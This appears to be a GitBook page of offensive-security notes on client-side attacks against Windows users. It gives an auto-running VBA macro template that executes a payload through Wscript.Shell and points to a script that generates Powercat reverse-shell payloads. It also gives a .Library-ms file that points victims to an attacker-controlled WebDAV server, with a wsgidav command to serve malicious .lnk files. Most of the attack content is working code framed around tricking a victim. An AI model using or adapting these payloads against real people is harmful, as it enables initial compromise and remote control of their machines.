 # Client Side

## Exploiting Microsoft Office

Steps to reproduce the doc macros attack using vba script

1. Create new file using **Microsoft Word**.
2.  Create a new macro - View > Macros:

    <figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>


3. Give the macro name > Select **Macros in document** > Click on Create:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

4. Write the Macro script within the payload:

```vba
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    Str = <Payload>
    CreateObject("Wscript.Shell").Run Str
End Sub
```

5. Save the file in **doc\docm** format which considered less secured, so the victim will just need to press **enable** to initiate the macros .

***

I've created useful python script which generates the VBA script content with Powercat Revshell payload given Local Host and Port:

```python
python3 vba-powercat-revshell.py <local_host> <ip>
```

{% embed url="https://gist.github.com/dudisamarel/74c215772ae1e5d2a9db3b2995317250" %}

## Exploiting Windows Library Files

Libraries are virtual containers for users' content.

This attack leverage **.Library-ms** file which will connect to attacker controlled WebDAV and be sent to a victim. Once the victim opens the file, he will think the WebDAV is a local windows folder. Then in the next stage the victim will click a malicious **.lnk** file using the WebDAV.&#x20;



First creating the **.Library-ms** file:&#x20;

<pre class="language-xml"><code class="lang-xml">&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
&#x3C;name>@windows.storage.dll,-34582&#x3C;/name>
&#x3C;version>6&#x3C;/version>
&#x3C;isLibraryPinned>true&#x3C;/isLibraryPinned>
&#x3C;iconReference>imageres.dll,-1003&#x3C;/iconReference>
&#x3C;templateInfo>
&#x3C;folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}&#x3C;/folderType>
&#x3C;/templateInfo>
&#x3C;searchConnectorDescriptionList>
&#x3C;searchConnectorDescription>
&#x3C;isDefaultSaveLocation>true&#x3C;/isDefaultSaveLocation>
&#x3C;isSupported>false&#x3C;/isSupported>
&#x3C;simpleLocation>
&#x3C;url><a data-footnote-ref href="#user-content-fn-1">http://webdav_address</a>&#x3C;/url>
&#x3C;/simpleLocation>
&#x3C;/searchConnectorDescription>
&#x3C;/searchConnectorDescriptionList>
&#x3C;/libraryDescription>
</code></pre>

* **`<libraryDescription>`**: This is the root element that defines the overall structure of a Windows library configuration.
* **`<name>`**: Refers to a string identifier for the library.
* **`<version>`**: Specifies the version of the library schema.
* **`<isLibraryPinned>`**: Indicates whether the library is pinned in the user's navigation pane.
* **`<iconReference>`**: Points to the resource for the icon associated with the library.
* **`<templateInfo>`**: Contains metadata about the library's folder type template.
* **`<folderType>`**: Defines the folder type or classification of the library using a GUID, which influences its behavior and appearance. These tag determine the columns and details that appear in Windows Explorer.
* **`<searchConnectorDescriptionList>`**: A wrapper for a collection of search remote connectors that the library can use.
* **`<searchConnectorDescription>`**: Defines individual search connectors, specifying details like save location and support status.
* **`<isDefaultSaveLocation>`**: Indicates whether this search connector is the default location for saving files, set to true here.
* **`<isSupported>`**: used for compatibility.
* **`<simpleLocation>`**: Specifies the search connector’s location in a simplified format.
* **`<url>`**: Points to the URL of the **attacker's WebDAV server**.



Serving the WebDAV Server including malicious files such `.lnk` file that runs PowerShell.

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root <directory_to_serve>
```

## References

{% embed url="https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries" %}

[^1]: 
